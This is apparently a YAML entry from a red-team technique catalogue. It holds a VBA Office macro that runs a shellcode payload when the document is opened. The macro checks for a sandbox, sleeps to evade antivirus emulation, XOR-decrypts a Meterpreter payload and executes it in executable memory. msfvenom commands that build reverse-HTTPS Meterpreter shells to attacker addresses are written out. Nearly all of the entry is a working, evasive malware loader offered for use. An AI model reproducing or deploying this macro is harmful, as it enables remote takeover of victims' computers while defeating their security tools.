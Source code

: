 ```yaml
---
description: |
  Shellcode runner in a VBA macro can be used inside a Office product. This code make use of encrypted shellcode with XOR and has a Sleep function which ensures that it is not tested against an AV emulator.

  Command Reference:

  	byte[] buf: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a


command: |
    VBA ShellcodeRunner macro to use in Office products

code: |
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
    Private Declare PtrSafe Function Sleep Lib "kernel32" (ByVal mili As Long) As Long
    Private Declare PtrSafe Function FlsAlloc Lib "kernel32" (ByVal lpCallback As LongPtr) As Long

    Sub Document_Open()
      ShellcodeRunner
    End Sub

    Sub AutoOpen()
      ShellcodeRunner
    End Sub

    Function ShellcodeRunner()
      Dim buf As Variant
      Dim tmp As LongPtr
      Dim addr As LongPtr
      Dim counter As Long
      Dim data As Long
      Dim res As Long
      Dim dream As Integer
      Dim before As Date
  
      ' Check if we're in a sandbox by calling a rare-emulated API
      If IsNull(FlsAlloc(tmp)) Then
        Exit Function
      End If

      ' Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
      dream = Int((1500 * Rnd) + 2000)
      before = Now()
      Sleep (dream)
      If DateDiff("s", t, Now()) < dream Then
        Exit Function
      End If

      ' msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.240.178 LPORT=443 EXITFUNC=thread -f vbapplication --encrypt xor --encrypt-key a
      buf = Array(31, 33, ..., 33, 37)

      ' XOR-decrypt the shellcode
      For i = 0 To UBound(buf)
        buf(i) = buf(i) Xor Asc("a")
      Next i

      ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
      ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
      addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

      For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
      Next counter

      res = CreateThread(0, 0, addr, 0, 0, 0)
    End Function


items:
    - Shell
services:
    - 
OS:
    - Windows
attack_types:
    - Persistence
    - Injection
references:
    - https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-with-powershell-cradle-in-memory
--- 
```



